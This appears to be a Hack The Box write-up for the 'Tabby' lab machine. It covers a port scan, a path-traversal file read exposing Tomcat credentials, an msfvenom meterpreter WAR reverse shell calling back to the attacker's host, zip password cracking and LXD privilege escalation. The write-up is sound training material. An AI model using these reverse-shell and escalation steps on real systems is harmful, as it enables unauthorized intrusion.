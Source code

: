 ```yaml
---
title: Tabby - Hack The Box
excerpt: "Tabby was an easy box with simple PHP arbitrary file ready, some password cracking, password re-use and abusing LXD group permissions to instantiate a new container as privileged and get root access. I had some trouble finding the tomcat-users.xml file so installed Tomcat locally on my VM and found the proper path for the file."
date: 2020-11-07
image: /assets/images/htb-writeup-tabby/tabby_logo.png
categories:
  - hackthebox
  - infosec
tags:
  - php
  - lfi
  - tomcat
  - password cracking
  - zip
  - password re-use
  - lxd
---
```



Tabby was an easy box with simple PHP arbitrary file ready, some password cracking, password re-use and abusing LXD group permissions to instantiate a new container as privileged and get root access. I had some trouble finding the tomcat-users.xml file so installed Tomcat locally on my VM and found the proper path for the file.

## Portscan

```
snowscan@kali:~/htb/tabby$ sudo nmap -sC -sV -p- 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-21 23:13 EDT
Nmap scan report for tabby.htb (10.10.10.194)
Host is up (0.018s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website - Port 80

There's a website running on the server with a typical hosting provider landing page.

![](/assets/images/htb-writeup-tabby/image-20200621231450618.png)

## Website - Port 8080

There's a default Tomcat installation on port 8080 but the password for the manager page has been changed and we can't log in.

![](/assets/images/htb-writeup-tabby/image-20200621231615067.png)

![](/assets/images/htb-writeup-tabby/image-20200621231712434.png)

## Find Tomcat credentials with PHP LFI

On the main website there's a link to a statement about some previous security breach: `http://megahosting.htb/news.php?file=statement`

![](/assets/images/htb-writeup-tabby/image-20200621231829387.png)

There's a very obvious arbitrary file read vulnerability in the `news.php` file and we can read any file with path traversal. Here I grabbed `/etc/passwd` and found the `ash` user:

![](/assets/images/htb-writeup-tabby/image-20200621232009306.png)

The Tomcat credentials are usually stored in the `tomcat-users.xml` file. I looked for it in `/etc/tomcat9/tomcat-users.xml` but the file wasn't there so instead I installed Tomcat locally and checked where it could be hidden:

```
snowscan@kali:/$ find / -name tomcat-users.xml 2>/dev/null
/etc/tomcat9/tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml
```

![](/assets/images/htb-writeup-tabby/image-20200621232523769.png)

We  got the credentials: `tomcat / $3cureP4s5w0rd123!`

## Getting a shell with a WAR file

I can't log in to the Tomcat manager even with the credentials.

![](/assets/images/htb-writeup-tabby/image-20200621232743387.png)

But I can log in to the host-manager:

![](/assets/images/htb-writeup-tabby/image-20200621232848021.png)

I'll generate a WAR file with msfvenom to get a reverse shell:

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f war -o met.war LHOST=10.10.14.11 LPORT=4444
```

To deploy the WAR file payload I'll use `https://pypi.org/project/tomcatmanager/`

![](/assets/images/htb-writeup-tabby/image-20200621233339795.png)

Then I'll get the file name of the JSP file generated:

![](/assets/images/htb-writeup-tabby/image-20200621233433491.png)

Browsing to `http://10.10.10.194:8080/met/vjreafuiffq.jsp` I can trigger the meterpreter shell:

![](/assets/images/htb-writeup-tabby/image-20200621233731397.png)

## Priv esc to user ash

In the website folder there's a backup zip file:

![](/assets/images/htb-writeup-tabby/image-20200621233913483.png)

The file is encrypted but we can crack the hash:

![](/assets/images/htb-writeup-tabby/image-20200621234129261.png)

There isn't anything interesting in the zip file but the same password is used by the ash user:

![](/assets/images/htb-writeup-tabby/image-20200621234231636.png)

## Privesc

Ash is a member of the `lxd` group:

![](/assets/images/htb-writeup-tabby/image-20200621234322444.png)

Members of the `lxd` group can create containers and by creating a container as privileged we can access the host filesystem with root privileges.

I'll upload an small Alpine Linux image, import it, then launch a new instance as privileged then I can read the flag from the host OS.

![](/assets/images/htb-writeup-tabby/image-20200621235145325.png)

![](/assets/images/htb-writeup-tabby/image-20200621235323717.png)

![](/assets/images/htb-writeup-tabby/image-20200621235444013.png)